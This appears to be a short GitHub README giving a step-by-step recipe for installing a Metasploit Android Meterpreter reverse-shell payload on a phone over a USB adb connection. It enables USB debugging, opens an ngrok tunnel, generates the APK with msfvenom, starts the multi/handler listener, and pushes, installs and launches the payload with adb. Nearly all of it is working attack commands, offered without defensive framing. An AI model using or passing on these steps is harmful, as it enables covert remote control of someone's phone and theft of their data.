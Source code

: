 # adb-phone-shell
How to get phone shell with msfvenom using USB connection with adb shell

# Getting shell
// First you gotta connect the phone with USB and then in developer options enable the USB-Debugging. You can access to developer options by pressing the version number of your phone 7 times.
adb devices
adb shell

# Opening listener port and creating the payload

ngrok tcp 1234
msfvenom -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -o payload.apk

# Checking on multi handler

use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST 127.0.0.1; set LPORT 1234; exploit

# Pusing payload to the phone and downloading

adb push payload.apk /sdcard/
adb install payload.apk
adb shell am start -n com.metasploit.stage/com.metasploit.stage.MainActivity

